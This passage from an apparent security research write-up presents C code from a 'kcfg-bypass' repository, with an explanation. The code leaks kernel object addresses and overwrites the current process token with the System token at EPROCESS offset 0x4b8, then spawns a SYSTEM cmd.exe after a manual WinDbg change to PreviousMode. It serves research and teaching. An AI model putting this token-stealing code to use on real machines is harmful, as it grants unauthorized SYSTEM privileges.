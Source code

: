 ```c
int main() {
	PVOID KTHREAD = NULL;
	PVOID SYSTEM_EPROCESS = NULL;
	PVOID EPROCESS = NULL;

	ULONG dwbytes = 0;
	GetNtFunction();

	DWORD pid = GetCurrentProcessId();
	
	// [1]
	HANDLE hThread = OpenThread(THREAD_QUERY_INFORMATION, TRUE, GetCurrentThreadId());
	GetObj(&KTHREAD, pid, hThread);
	printf("[+] Current KTHREAD: %p\n", KTHREAD);

	HANDLE hProc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
	GetObj(&EPROCESS, pid, hProc);
	printf("[+] Current EPROCESS: %p\n", EPROCESS);

	GetObj(&SYSTEM_EPROCESS, 4, (HANDLE)4);
	printf("[+] System EPROCESS: %p\n", SYSTEM_EPROCESS);

	printf("modify previousmode in windbg and press any button..\n");
	getch();

	// [2]
	pNtWriteVirtualMemory(GetCurrentProcess(), (ULONGLONG)EPROCESS + 0x4b8 , (ULONGLONG)SYSTEM_EPROCESS + 0x4b8, sizeof(ULONGLONG), &dwbytes);

	// [3]
	system("cmd.exe");
	
}
```

> [https://github.com/hackyboiz/kcfg-bypass/blob/main/example-with-windbg.c](https://github.com/hackyboiz/kcfg-bypass/blob/main/example-with-windbg.c)
> 

The above code works as follows

1. Leak the required address via the `NtQuerySystemInformation` API
2. Overwrite the token value of the user-mode process to the system process
3. Spawn a cmd with system privileges

In normal execution, nothing happens because the user-mode process cannot RW the kernel memory via `pNtWriteVirtualMemory`...but we will now modify PreviouMode in the debugger before calling `pNtWriteVirtualMemory` and do the privilege escalation.

![image.png](en/image%205.png)
